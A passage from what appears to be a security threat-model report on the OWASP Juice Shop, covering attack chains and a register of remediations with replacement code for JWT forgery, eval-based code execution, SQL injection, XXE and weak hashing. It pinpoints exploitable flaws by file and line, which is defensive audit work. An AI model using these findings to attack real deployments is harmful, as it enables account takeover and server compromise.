**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store (**P1**): remediating 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery — `lib/insecurity.ts:23` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-011](#m-011) — Harden the authentication flow (**P1**): remediating 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:54` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-009](#f-009) — Server-Side Code Execution — `routes/userProfile.ts:62` | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-017](#m-017) — Remove server-side evaluation of untrusted input (**P1**): remediating 🔴 [F-009](#f-009) — Server-Side Code Execution — `routes/userProfile.ts:62` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-010](#m-010) — Remove derived-password pattern; enforce OAuth-only login path with…<br/>❶ [M-011](#m-011) — Harden the authentication flow<br/>❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store<br/>❶ [M-013](#m-013) — Hash passwords with a strong, salted algorithm<br/>❶ [M-014](#m-014) — Enforce object-level (ownership) authorization<br/>❶ [M-015](#m-015) — Use parameterized database queries<br/>❶ [M-016](#m-016) — Use parameterized database queries<br/>❶ [M-017](#m-017) — Remove server-side evaluation of untrusted input<br/>❶ [M-019](#m-019) — Disable XML external entity (XXE) resolution<br/>❶ [M-020](#m-020) — Harden the authentication flow<br/>❶ [M-021](#m-021) — Apply least-privilege permissions<br/>❶ [M-022](#m-022) — Remove server-side evaluation of untrusted input<br/>❷ [M-001](#m-001) — Apply least-privilege permissions<br/>❷ [M-002](#m-002) — Pin third-party dependencies to immutable versions<br/>❷ [M-003](#m-003) — Pin the container base image to an immutable digest<br/>❷ [M-004](#m-004) — Pin the container base image to an immutable digest<br/>❷ [M-018](#m-018) — Stop storing sensitive data in cleartext<br/>❷ [M-023](#m-023) — Replace Implicit Flow with Authorization Code + PKCE<br/>❷ [M-024](#m-024) — Add rate limiting and replace security questions with…<br/>❷ [M-025](#m-025) — Add JWT authentication middleware to Socket\.IO connection via `io.use`…<br/>❷ [M-026](#m-026) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-027](#m-027) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-028](#m-028) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-029](#m-029) — Drop unnecessary privileges in build and runtime<br/>❷ [M-030](#m-030) — Pin third-party dependencies to immutable versions<br/>❷ [M-031](#m-031) — Pin the container base image to an immutable digest<br/>❷ [M-032](#m-032) — Add a model-layer beforeUpdate hook that rejects role changes by…<br/>❷ [M-033](#m-033) — Constrain file paths to a safe base directory<br/>❷ [M-034](#m-034) — Add security audit logging<br/>❷ [M-035](#m-035) — Add security audit logging<br/>❷ [M-036](#m-036) — Stop storing sensitive data in cleartext<br/>❷ [M-037](#m-037) — Move cryptographic keys to a managed secret store<br/>❷ [M-039](#m-039) — Stop exposing internal information to clients<br/>❷ [M-040](#m-040) — Restrict `/encryptionkeys` and `/support/logs` behind isAuthorized and…<br/>❷ [M-041](#m-041) — Stop exposing internal information to clients<br/>❷ [M-042](#m-042) — Validate and allowlist outbound request targets<br/>❷ [M-043](#m-043) — Stop exposing internal information to clients<br/>❷ [M-044](#m-044) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-045](#m-045) — Offload CPU-bound work and bound execution time<br/>❷ [M-046](#m-046) — Add document-count limits and TTL-based eviction to MarsDB…<br/>❷ [M-047](#m-047) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-048](#m-048) — Bound parser and decompression resource limits<br/>❷ [M-049](#m-049) — Harden the authentication flow<br/>❷ [M-050](#m-050) — Enforce server-side authorization on every endpoint<br/>❷ [M-051](#m-051) — Replace curl-pipe Heroku CLI install with pinned GitHub Action or…<br/>❷ [M-052](#m-052) — Apply least-privilege permissions<br/>❷ [M-053](#m-053) — Replace deterministic deluxeToken with a cryptographically random…<br/>❷ [M-054](#m-054) — Enforce server-side authorization on every endpoint<br/>❷ [M-055](#m-055) — Exclude role and isActive fields from the User finale auto-model and…<br/>❷ [M-056](#m-056) — Replace js-yaml `yaml.load` with yaml.safeLoad or upgrade to js-yaml v4…<br/>❸ [M-005](#m-005) — Sign and verify release artifacts<br/>❸ [M-006](#m-006) — Disable untrusted package install scripts<br/>❸ [M-007](#m-007) — Pin the container base image to an immutable digest<br/>❸ [M-009](#m-009) — Store session tokens in HttpOnly, Secure cookies<br/>❸ [M-038](#m-038) — Replace the weak cryptographic algorithm<br/>❸ [M-057](#m-057) — Require authenticated identity and server-side evidence before marking…<br/>❸ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-059](#m-059) — Add security audit logging<br/>❸ [M-060](#m-060) — Sign and verify release artifacts<br/>❸ [M-061](#m-061) — Add security audit logging<br/>❸ [M-062](#m-062) — Stop exposing internal information to clients<br/>❸ [M-063](#m-063) — Return generic error messages to clients<br/>❸ [M-064](#m-064) — Add express-rate-limit middleware to POST `/file-upload` with a low…<br/>❸ [M-065](#m-065) — Configure Socket\.IO connection limits and per-event rate throttling to…<br/>❹ [M-008](#m-008) — Add a container healthcheck<br/>❹ [M-066](#m-066) — Add security audit logging<br/>❹ [M-067](#m-067) — Stop exposing internal information to clients<br/>❹ [M-068](#m-068) — Add concurrency group with cancel-in-progress to cancel superseded…

### P1 — Immediate

<a id="m-010"></a>
#### M-010 — Remove derived-password pattern; enforce OAuth-only login path with server-side token exchange

**Addresses:**

- 🔴 [F-002](#f-002) — Derived Credential from OAuth Email Claim (`oauth.component.ts:30`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `oauth.component.ts:30`

**How:** Remove the `btoa(email.split('').reverse().join(''))` password derivation at `oauth.component.ts:30`. Mark OAuth-registered accounts with a flag (e.g. `oauth_only: true`) in the user record; the backend should reject password-based login for these accounts. The OAuth flow should exchange the authorization code server-side and issue a Juice Shop session token directly, without creating a secondary password credential.

1. Remove the `btoa(email.split('').reverse().join(''))` password derivation at `oauth.component.ts:30`.
2. Mark OAuth-registered accounts with a flag (e.g. `oauth_only: true`) in the user record; the backend should reject password-based login for these accounts.
3. The OAuth flow should exchange the authorization code server-side and issue a Juice Shop session token directly, without creating a secondary password credential.

**Reference:** CWE-522

---

<a id="m-011"></a>
#### M-011 — Harden the authentication flow

**Addresses:**

- 🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:54`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `lib/insecurity.ts:54`

**How:** Upgrade `jsonwebtoken` to `>=9.0.0` and `express-jwt` to `>=6.1.1` (both have algorithm enforcement by default). Add `algorithms: ['RS256']` to the `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` call at `lib/insecurity.ts:54`. Audit all other `jwt.verify()` call sites to ensure algorithm is pinned.

1. Upgrade `jsonwebtoken` to `>=9.0.0` and `express-jwt` to `>=6.1.1` (both have algorithm enforcement by default)
2. Add `algorithms: ['RS256']` to the `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` call at `lib/insecurity.ts:54`
3. Audit all other `jwt.verify()` call sites to ensure algorithm is pinned

```javascript
// lib/insecurity.ts:54
export const isAuthorized = () => expressJwt({ secret: publicKey, algorithms: ['RS256'] } as any)
```

**Reference:** CWE-287

---

<a id="m-012"></a>
#### M-012 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** Remove the inline `privateKey` string from `lib/insecurity.ts:23` and replace with `process.env.JWT_PRIVATE_KEY` loaded at startup with a startup-fail guard (`if (!process.env.JWT_PRIVATE_KEY) throw new Error('JWT_PRIVATE_KEY not set')`). Generate a fresh 2048-bit RSA key pair (`openssl genrsa -out jwt.key 2048 && openssl rsa -in jwt.key -pubout -out jwt.pub`) and provision the private key as a Kubernetes Secret or environment variable, never committed to source. Add `algorithms: ['RS256']` constraint to the `expressJwt()` call at line 54 to prevent algorithm downgrade. Rotate the key immediately - all existing sessions must be invalidated by incrementing a `jti` counter or changing the signing key.

1. Remove the inline `privateKey` string from `lib/insecurity.ts:23` and replace with `process.env.JWT_PRIVATE_KEY` loaded at startup with a startup-fail guard (`if (!process.env.JWT_PRIVATE_KEY) throw new Error('JWT_PRIVATE_KEY not set')`)
2. Generate a fresh 2048-bit RSA key pair (`openssl genrsa -out jwt.key 2048 && openssl rsa -in jwt.key -pubout -out jwt.pub`) and provision the private key as a Kubernetes Secret or environment variable, never committed to source
3. Add `algorithms: ['RS256']` constraint to the `expressJwt()` call at line 54 to prevent algorithm downgrade
4. Rotate the key immediately - all existing sessions must be invalidated by incrementing a `jti` counter or changing the signing key

```javascript
// lib/insecurity.ts
const privateKey = process.env.JWT_PRIVATE_KEY ?? (() => { throw new Error('JWT_PRIVATE_KEY env var not set') })()
export const publicKey = process.env.JWT_PUBLIC_KEY ?? fs.readFileSync('encryptionkeys/jwt.pub', 'utf8')
export const isAuthorized = () => expressJwt({ secret: publicKey, algorithms: ['RS256'] } as any)
```

**Reference:** CWE-321

---

<a id="m-013"></a>
#### M-013 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🔴 [F-005](#f-005) — Unsalted MD5 password hashing (`lib/insecurity.ts:43`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:43`

**How:** Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(data, 12)` (bcrypt) or `argon2.hash(data, { memoryCost: 65536, timeCost: 3 })` (argon2id). Update the User model `set` hook at `models/user.ts:76-78` to call the new async hash function; add a corresponding verify helper used in login routes. Add a one-time migration that detects `MD5`-format hashes (32-char hex) at login time, verifies the plaintext against the `MD5`, and re-hashes with bcrypt on successful login (rolling upgrade). Remove `security.hash` usage from all callers and replace with the new async `hashPassword` / `verifyPassword` pair to prevent re-introduction.

1. Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(data, 12)` (bcrypt) or `argon2.hash(data, { memoryCost: 65536, timeCost: 3 })` (argon2id).
2. Update the User model `set` hook at `models/user.ts:76-78` to call the new async hash function; add a corresponding verify helper used in login routes.
3. Add a one-time migration that detects `MD5`-format hashes (32-char hex) at login time, verifies the plaintext against the `MD5`, and re-hashes with bcrypt on successful login (rolling upgrade).
4. Remove `security.hash` usage from all callers and replace with the new async `hashPassword` / `verifyPassword` pair to prevent re-introduction.

```javascript
// lib/insecurity.ts — replacement
import bcrypt from 'bcrypt'
export const hashPassword = async (plain: string): Promise<string> => bcrypt.hash(plain, 12)
export const verifyPassword = async (plain: string, hash: string): Promise<boolean> => bcrypt.compare(plain, hash)
```

**Reference:** CWE-916

---

<a id="m-014"></a>
#### M-014 — Enforce object-level (ownership) authorization

**Addresses:**

- 🔴 [F-006](#f-006) — Insecure Direct Object Reference (`routes/address.ts:11`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/address.ts:11`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

<a id="m-015"></a>
#### M-015 — Use parameterized database queries

**Addresses:**

- 🔴 [F-007](#f-007) — SQL Injection (`routes/login.ts:34`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:** Replace the raw `sequelize.query()` call with a parameterized query: `sequelize.query('SELECT * FROM Users WHERE email = ? AND password = ? AND deletedAt IS NULL', { replacements: [req.body.email, security.hash(req.body.password)], model: UserModel, plain: true })`. Alternatively use Sequelize ORM: `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })`. Apply the same fix to `routes/search.ts:23` (see express-backend-004).

1. Replace the raw `sequelize.query()` call with a parameterized query: `sequelize.query('SELECT * FROM Users WHERE email = ? AND password = ? AND deletedAt IS NULL', { replacements: [req.body.email, security.hash(req.body.password)], model: UserModel, plain: true })`.
2. Alternatively use Sequelize ORM: `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })`.
3. Apply the same fix to `routes/search.ts:23` (see express-backend-004).

```javascript
// routes/login.ts:34 — parameterized replacement
models.sequelize.query(
  'SELECT * FROM Users WHERE email = ? AND password = ? AND deletedAt IS NULL',
  { replacements: [req.body.email, security.hash(req.body.password)],
    model: UserModel, plain: true }
)
```

**Reference:** CWE-89

---

<a id="m-016"></a>
#### M-016 — Use parameterized database queries

**Addresses:**

- 🔴 [F-008](#f-008) — SQL Injection (`routes/search.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:** Replace string interpolation with Sequelize LIKE parameterization: `sequelize.query('SELECT * FROM Products WHERE ((name LIKE ? OR description LIKE ?) AND deletedAt IS NULL) ORDER BY name', { replacements: [`%\${criteria}%`, `%\${criteria}%`], ... })`. Validate `criteria` against an allowlist of printable non-SQL characters before the query. Consider using `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: ... } }] } })` via Sequelize ORM.

1. Replace string interpolation with Sequelize LIKE parameterization: `sequelize.query('SELECT * FROM Products WHERE ((name LIKE ? OR description LIKE ?) AND deletedAt IS NULL) ORDER BY name', { replacements: [`%\${criteria}%`, `%\${criteria}%`], ... })`.
2. Validate `criteria` against an allowlist of printable non-SQL characters before the query.
3. Consider using `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: ... } }] } })` via Sequelize ORM.

```javascript
models.sequelize.query(
  'SELECT * FROM Products WHERE ((name LIKE ? OR description LIKE ?) AND deletedAt IS NULL) ORDER BY name',
  { replacements: [`%${criteria}%`, `%${criteria}%`] }
)
```

**Reference:** CWE-89

---

<a id="m-017"></a>
#### M-017 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-009](#f-009) — Server-Side Code Execution (`routes/userProfile.ts:62`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/userProfile.ts:55`

**How:** Remove the `eval(code)` branch at `routes/userProfile.ts:55–68` entirely. Use `entities.encode(username)` to HTML-escape the username before inserting it into the Pug template. If template variable substitution is needed, pass `username` as a Pug local variable rather than string-replacing the raw template source: `const fn = pug.compile(template); fn({ username: entities.encode(user.username) })`. Validate username at write-time (`PUT /profile`) to reject any input matching `#{` to prevent storage of payloads.

1. Remove the `eval(code)` branch at `routes/userProfile.ts:55–68` entirely.
2. Use `entities.encode(username)` to HTML-escape the username before inserting it into the Pug template.
3. If template variable substitution is needed, pass `username` as a Pug local variable rather than string-replacing the raw template source: `const fn = pug.compile(template); fn({ username: entities.encode(user.username) })`.
4. Validate username at write-time (`PUT /profile`) to reject any input matching `#{` to prevent storage of payloads.

```javascript
// routes/userProfile.ts — safe replacement
const safeUsername = entities.encode(user?.username ?? '')
template = template.replace(/_username_/g, safeUsername)
```

**Reference:** CWE-94

---

<a id="m-019"></a>
#### M-019 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🔴 [F-011](#f-011) — XML External Entity Expansion (`routes/fileUpload.ts:83`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:** Change `noent:true` to `noent:false` in the `libxml.parseXml()` options at `routes/fileUpload.ts:83` - this disables external entity resolution at the C-library level. Additionally set nonet:true to block network-based entity fetches as defence-in-depth. Remove the parsing result from the error message at line 87 - never echo parsed XML content back to callers. If XML intake is no longer needed (endpoint is already marked 'deprecated'), remove the `handleXmlUpload` middleware entirely from the route chain.

1. Change `noent:true` to `noent:false` in the `libxml.parseXml()` options at `routes/fileUpload.ts:83` - this disables external entity resolution at the C-library level.
2. Additionally set nonet:true to block network-based entity fetches as defence-in-depth.
3. Remove the parsing result from the error message at line 87 - never echo parsed XML content back to callers.
4. If XML intake is no longer needed (endpoint is already marked 'deprecated'), remove the `handleXmlUpload` middleware entirely from the route chain.

```javascript
// routes/fileUpload.ts:83 — safe options
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true, nonet: true })',
  sandbox,
  { timeout: 2000 }
)
```

**Reference:** CWE-611

---

<a id="m-020"></a>
#### M-020 — Harden the authentication flow

**Addresses:**

- 🔴 [F-012](#f-012) — Client-Side-Only Route Guard Bypassable (`app.guard.ts:18`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:18`

**How:** The SPA route guards are a UX convenience only and must not be treated as a security boundary. Ensure every Express Backend route served to `/administration` and `/accounting` enforces the admin/accounting role server-side via the JWT middleware. Fix the backend's `jsonwebtoken@0.4.0` `alg:none` vulnerability (express-backend component) to prevent JWT forgery that would bypass both client-side and server-side checks. Consider adding a server-side session check (e.g. `/rest/user/whoami` returning current role) that the AdminGuard calls on each navigation, so a stolen or forged token is invalidated by server state.

1. The SPA route guards are a UX convenience only and must not be treated as a security boundary. Ensure every Express Backend route served to `/administration` and `/accounting` enforces the admin/accounting role server-side via the JWT middleware.
2. Fix the backend's `jsonwebtoken@0.4.0` `alg:none` vulnerability (express-backend component) to prevent JWT forgery that would bypass both client-side and server-side checks.
3. Consider adding a server-side session check (e.g. `/rest/user/whoami` returning current role) that the AdminGuard calls on each navigation, so a stolen or forged token is invalidated by server state.

**Reference:** CWE-287

---

<a id="m-021"></a>
#### M-021 — Apply least-privilege permissions

**Addresses:**

- 🔴 [F-013](#f-013) — Role Escalation (`lib/insecurity.ts:56`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:56`

**How:** Remove the hardcoded private key (see auth-001 remediation) - this alone eliminates the forgery path. Add server-side role validation: after JWT verification, look up `UserModel.findByPk(decoded.data.id)` and compare database role against claimed role - reject if mismatch. Eliminate reliance on in-token `deluxeToken` claim for deluxe status; compute it server-side on each request from the database role field. Consider short-lived tokens (15 minutes) with refresh token rotation to limit the blast radius of any future key compromise.

1. Remove the hardcoded private key (see auth-001 remediation) - this alone eliminates the forgery path
2. Add server-side role validation: after JWT verification, look up `UserModel.findByPk(decoded.data.id)` and compare database role against claimed role - reject if mismatch
3. Eliminate reliance on in-token `deluxeToken` claim for deluxe status; compute it server-side on each request from the database role field
4. Consider short-lived tokens (15 minutes) with refresh token rotation to limit the blast radius of any future key compromise

**Reference:** CWE-269

---

<a id="m-022"></a>
#### M-022 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-014](#f-014) — Server-side RCE (`routes/b2bOrder.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** Remove the `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` call entirely from `routes/b2bOrder.ts:23`. Accept `orderLinesData` as a JSON string and parse it with `JSON.parse()` against a strict Joi or Zod schema that validates the expected array-of-order-line structure (`productId`: integer, quantity: integer >= 1, `customerReference`: string). Reject any value that does not conform. If dynamic expression evaluation is a business requirement, move it to a dedicated containerized subprocess with no access to the host filesystem or environment, communicating via a narrow message-passing interface. Add input length limits on `orderLinesData` (e.g. max 10000 bytes) to prevent amplification attacks.

1. Remove the `vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })` call entirely from `routes/b2bOrder.ts:23`.
2. Accept `orderLinesData` as a JSON string and parse it with `JSON.parse()` against a strict Joi or Zod schema that validates the expected array-of-order-line structure (`productId`: integer, quantity: integer >= 1, `customerReference`: string). Reject any value that does not conform.
3. If dynamic expression evaluation is a business requirement, move it to a dedicated containerized subprocess with no access to the host filesystem or environment, communicating via a narrow message-passing interface.
4. Add input length limits on `orderLinesData` (e.g. max 10000 bytes) to prevent amplification attacks.

```javascript
// routes/b2bOrder.ts — SAFE replacement
import Joi from 'joi'
const orderLineSchema = Joi.array().items(Joi.object({
  productId: Joi.number().integer().required(),
  quantity: Joi.number().integer().min(1).required(),
  customerReference: Joi.string().max(100).optional()
})).max(100)

// In handler:
const { error, value } = orderLineSchema.validate(JSON.parse(body.orderLinesData || '[]'))
if (error) return next(new Error('Invalid orderLinesData'))
```

**Reference:** CWE-94

---

### P2 — This Sprint

<a id="m-001"></a>
#### M-001 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-030](#f-030) — GitHub Actions workflow missing top-level permissions block (`release.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/release.yml:1`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for GITHUB_TOKEN - any compromised step can push code, create releases, or approve PRs.

---

<a id="m-002"></a>
#### M-002 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-031](#f-031) — Third-party GitHub Action not pinned to commit SHA (`codeql-analysis.yml:23`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/codeql-analysis.yml:23`

**How:** Pin every third-party action to a full 40-char commit SHA - Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

---

<a id="m-003"></a>
#### M-003 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-032](#f-032) — Docker base image not digest-pinned — Dockerfile:1

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest> - Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-004"></a>
#### M-004 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-033](#f-033) — On absent dependency versions not locked (`package-lock.json:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `package-lock.json:1`

**How:** Commit `package-lock.json`; use `npm ci` in CI - Without a lockfile, `npm install` installs different transitive versions on each run - supply-chain attacks become undetectable.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-018"></a>
#### M-018 — Stop storing sensitive data in cleartext

**Addresses:**

- 🔴 [F-010](#f-010) — Payment card numbers stored in plaintext (`models/card.ts:39`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `models/card.ts:39`

**How:** Add a Sequelize `beforeCreate` / `beforeUpdate` hook on `CardModel` that encrypts `cardNum` with AES-256-GCM using a key sourced from `process.env.CARD_ENCRYPTION_KEY` (never from source). Add a corresponding `afterFind` hook (or getter) that decrypts `cardNum` on read, so application code continues to use the plaintext value in memory. Store only the last four digits in the `cardNum` column for display/verification purposes; keep the encrypted full PAN in a separate `cardNumEncrypted` column. Rotate the encryption key via envelope encryption (key-encryption-key wrapping) so that key rotation does not require re-encrypting all records.

1. Add a Sequelize `beforeCreate` / `beforeUpdate` hook on `CardModel` that encrypts `cardNum` with AES-256-GCM using a key sourced from `process.env.CARD_ENCRYPTION_KEY` (never from source).
2. Add a corresponding `afterFind` hook (or getter) that decrypts `cardNum` on read, so application code continues to use the plaintext value in memory.
3. Store only the last four digits in the `cardNum` column for display/verification purposes; keep the encrypted full PAN in a separate `cardNumEncrypted` column.
4. Rotate the encryption key via envelope encryption (key-encryption-key wrapping) so that key rotation does not require re-encrypting all records.

```javascript
// models/card.ts — field-level encryption hook sketch
import { createCipheriv, createDecipheriv, randomBytes } from 'crypto'
CardModel.addHook('beforeCreate', (card) => {
  const iv = randomBytes(12)
  const cipher = createCipheriv('aes-256-gcm', Buffer.from(process.env.CARD_ENCRYPTION_KEY!, 'hex'), iv)
  const encrypted = Buffer.concat([cipher.update(String(card.cardNum)), cipher.final()])
  const tag = cipher.getAuthTag()
  card.cardNumEncrypted = `${iv.toString('hex')}:${tag.toString('hex')}:${encrypted.toString('hex')}`
  card.cardNum = Number(String(card.cardNum).slice(-4))  // keep last-4 only
})
```

**Reference:** CWE-312

---

<a id="m-023"></a>
#### M-023 — Replace Implicit Flow with Authorization Code + PKCE

**Addresses:**

- 🟠 [F-015](#f-015) — OAuth Implicit Flow Token Exposure (`login.component.ts:134`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `login.component.ts:134`

**How:** Change `response_type=token` to `response_type=code` in the OAuth redirect URL built at `login.component.ts:134`. Generate a cryptographically random `state` parameter per request (e.g. `crypto.getRandomValues`) and store it in `sessionStorage`; verify it matches the value returned in the redirect. Add `code_challenge_method=S256` and a derived `code_challenge` (PKCE) to the authorization request. Exchange the authorization code for tokens server-side (Express Backend), so the access/refresh tokens never appear in the browser's address bar.

1. Change `response_type=token` to `response_type=code` in the OAuth redirect URL built at `login.component.ts:134`.
2. Generate a cryptographically random `state` parameter per request (e.g. `crypto.getRandomValues`) and store it in `sessionStorage`; verify it matches the value returned in the redirect.
3. Add `code_challenge_method=S256` and a derived `code_challenge` (PKCE) to the authorization request.
4. Exchange the authorization code for tokens server-side (Express Backend), so the access/refresh tokens never appear in the browser's address bar.

```javascript
// Replace the googleLogin() body with:
const state = crypto.randomUUID()
sessionStorage.setItem('oauth_state', state)
const params = new URLSearchParams({
  client_id: this.clientId,
  response_type: 'code',
  scope: 'email openid',
  redirect_uri: this.redirectUri,
  state
})
window.location.href = `${oauthProviderUrl}?${params}`
```

**Reference:** CWE-598

---

<a id="m-024"></a>
#### M-024 — Add rate limiting and replace security questions with email-token-based password reset

**Addresses:**

- 🟠 [F-016](#f-016) — Brute-Forceable Security Question Password Reset (`routes/resetPassword.ts:41`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:44`

**How:** Replace the security-question reset flow with a time-limited cryptographically random token sent to the user's verified email address. If security questions must remain, apply `express-rate-limit` to `POST /rest/user/reset-password` with a limit of 5 attempts per hour per IP and per email address. Load the HMAC key from an environment variable rather than the hardcoded string at `lib/insecurity.ts:44`.

1. Replace the security-question reset flow with a time-limited cryptographically random token sent to the user's verified email address
2. If security questions must remain, apply `express-rate-limit` to `POST /rest/user/reset-password` with a limit of 5 attempts per hour per IP and per email address
3. Load the HMAC key from an environment variable rather than the hardcoded string at `lib/insecurity.ts:44`

**Reference:** CWE-640

---

<a id="m-025"></a>
#### M-025 — Add JWT authentication middleware to Socket\.IO connection via `io.use` before accepting connections

**Addresses:**

- 🔴 [F-017](#f-017) — Missing Authentication on WebSocket Connection (`registerWebsocketEvents.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:24`

**How:** Add an `io.use()` middleware that extracts and verifies the JWT from `socket.handshake.auth.token` or `socket.handshake.headers.authorization` using the same `security.verify()` / `express-jwt` logic used on HTTP routes. Reject the connection with `next(new Error('Unauthorized'))` when the token is missing or invalid. Pass the verified user identity into `socket.data.user` so event handlers can perform per-user authorization checks. Update the Angular SPA (`registerWebsocketEvents.ts` call site) to pass the JWT as `auth: { token }` in the Socket\.IO client constructor options.

1. Add an `io.use()` middleware that extracts and verifies the JWT from `socket.handshake.auth.token` or `socket.handshake.headers.authorization` using the same `security.verify()` / `express-jwt` logic used on HTTP routes.
2. Reject the connection with `next(new Error('Unauthorized'))` when the token is missing or invalid.
3. Pass the verified user identity into `socket.data.user` so event handlers can perform per-user authorization checks.
4. Update the Angular SPA (`registerWebsocketEvents.ts` call site) to pass the JWT as `auth: { token }` in the Socket\.IO client constructor options.

```javascript
// lib/startup/registerWebsocketEvents.ts
const io = new Server(server, { cors: { origin: 'http://localhost:4200' } })
io.use((socket, next) => {
  const token = socket.handshake.auth?.token
  if (!token) return next(new Error('Unauthorized'))
  try {
    socket.data.user = security.verify(token)
    next()
  } catch {
    next(new Error('Unauthorized'))
  }
})
```

**Reference:** CWE-306

---

<a id="m-026"></a>
#### M-026 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-018](#f-018) — Stored XSS (`search-result.component.ts:132`)

